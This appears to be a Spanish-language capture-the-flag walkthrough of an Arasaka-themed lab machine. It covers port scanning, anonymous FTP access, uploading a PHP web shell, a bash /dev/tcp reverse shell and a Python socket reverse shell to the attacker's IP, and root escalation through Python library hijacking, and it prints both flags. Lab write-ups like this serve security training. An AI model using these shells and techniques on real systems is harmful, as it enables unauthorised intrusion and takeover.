Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.133 -oN escaneo
```


Vemos que  nos muestra que hay un servicio FTP corriendo en el puerto 21. Además nos indica que el usuario `anonymous` (usuario por derfecto), está habilitado. Así que vamos a entrar al servicio para ver que nos muestra el archivo `secret.txt` que sale en el escaneo de puertos.
```
ftp 192.168.80.133
user: anonymous
password: 
```


Ahora vamos a descargar el archivo `secret.txt`, para ver que nos mustra.
```
get secret.txt
```


Ahora vamos a ver que esconde.


Vemos que nos mustra de que la empresa Arasaka está migrando sus sistemas y que es vulnerable. Nos pide que penetremos el sistema y que nos espera en `Apache`, el servicio de servidores web que corresponde con el servicio que estaba abierto en el puerto 80 en el escaneo de puertos, así que vamos a introducir la dirección al navegado para ver si hay algo.


Vemos que nos muestra una web. Así que podemos subir por el servicio FTP una `web shell` para poder intentar realizar una `reverse shell`. Vamos a abrir un archivo .php y vamos a introducir lo siguiente.
```
<?php
    system($_GET['cmd']);
?>
```


Lo guardamos y lo subimos al servicio FTP.
```
put webshell.php
```


Al ver que la tenemos subida vamos a realizar una prueba para ver si funciona. En la url, pondremos el nombre del archivo seguido de una `/` y luego  un `?` con la variable que hemos puesto que es `cmd`, luego pondremos un `=` y finalmente pondremos un comando del servidor.


Ahora vamos a intentar realizar una reverse shell. Para ello hay que `urlencodear` el siguiente comando.
```
bash -c 'exec bash -i &>/dev/tcp/192.168.80.130/6969 <&1'
```

Urlencodeado:
```
%62%61%73%68%20%2d%63%20%27%65%78%65%63%20%62%61%73%68%20%2d%69%20%26%3e%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%38%30%2e%31%33%30%2f%36%39%36%39%20%3c%26%31%27
```

Una vez lo tenemos, nos vamos a poner en escucha en el puerto indicado.
```
nc -lnvp 6969
```


Ahora introduciremos la revers shell urlencodeada al lado del `=`.


Si todo ha salido bién, se habrá quedado colgada la web, así que volveremos a nuestra terminal para ver si ha funcionado.


Si vamos al directorio `/opt`, veremos que hay un archivo con un cifrado raro.
```
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```


Vamos a introducir el cifrado en google para ver si nos dice el tipo. Vemos que nos muestra que es un cifrado `brainfuck`. Al descifrarlo, vemos que nos da de pasword:
```
cyberpunk2077
```

Vemos que ahora tenemos la password del usaurio `Arasaka`, así que vamos a entrar en el.
```
su arasaka
password: cyberpunk2077
```


Ahora vamos a la carpeta del usuario y vamos a ver si está la flag de uasuario.
```
flag: 41311c28da287ef8acf6ad429c42c5d2
```


Ahroa vamos a ver si nos podemos ayudar de algún binario para poder escalar al usuario root.
```
sudo -l
password: cyberpunk2077
```


Vemos que podemos ejecutar un archivo python para escalar a root. Vamos a ver que contiene.


Vemos que este script te permite pasar cadenas de texto a base64. Vemos que al principio está importando una librería, vamos a engañar a pyhon y vamos a crear un archivo python llamado igual que la librería para que nos ejectute una reverse shell como root. El archivo debe contener lo siguiente.
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.80.130",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```


Ahora nos pondremos a la escucha por el puerto indicado y ejecutaremos el script.
```
nc -lnvp 443
```


```
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```


Vemos que se nos quedará colgado y se nos abre una terminal en el puerto que estaba a la escucha.


Ahora vamos a printar la flag del usuario root.
```
cat /root/root.txt
```

```
flag2: 344a4a8f53d36e7449957489701b040f
```